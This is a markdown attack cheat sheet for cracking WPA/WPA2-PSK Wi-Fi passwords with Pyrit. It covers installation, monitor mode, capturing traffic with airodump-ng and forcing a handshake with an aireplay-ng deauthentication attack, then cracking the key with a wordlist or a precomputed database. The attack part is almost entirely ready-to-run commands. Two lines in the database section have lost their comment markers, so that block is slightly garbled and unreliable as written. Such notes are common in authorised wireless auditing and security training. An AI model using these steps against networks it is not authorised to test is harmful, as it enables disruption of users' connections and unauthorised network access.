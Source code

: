 # Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Installation

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2. One must do all of this to work:

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
wget https://codeload.github.com/secdev/scapy/zip/v2.3.2 -O /tmp/scapy.zip
cd /tmp
unzip scapy.zip
cd scapy-2.3.2
sudo python2 ./setup.py install
cd ..
pyrit -h
pyrit list_cores
```

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq
```
## Check Fourway Handshake

```bash
pyrit -r $PCAP analyze
```
![pyrit check](../../images/pyrit-check.png)

## Strip Unneeded Data

```bash
pyrit -r $PCAP -o $TAG-stripped.cap strip
```
![pyrit check](../../images/pyrit-strip.png)

## Using a Wordlist

```bash
# Unstripped
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
# OR Stripped
pyrit -r $TAG-stripped.cap -i $WORDLIST -b $BSSID attack_passthrough
```
![pyrit check](../../images/pyrit-crack.png)

## Using a Database

```bash
# Crack the secret in database mode
pyrit -i $WORDLIST import_passwords
password in pyrit with database mode
pyrit -e <ESSID> create_essid
point to the pyrit database
pyrit batch
pyrit -r $CAPTURE -b $BSSID attack_db
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)
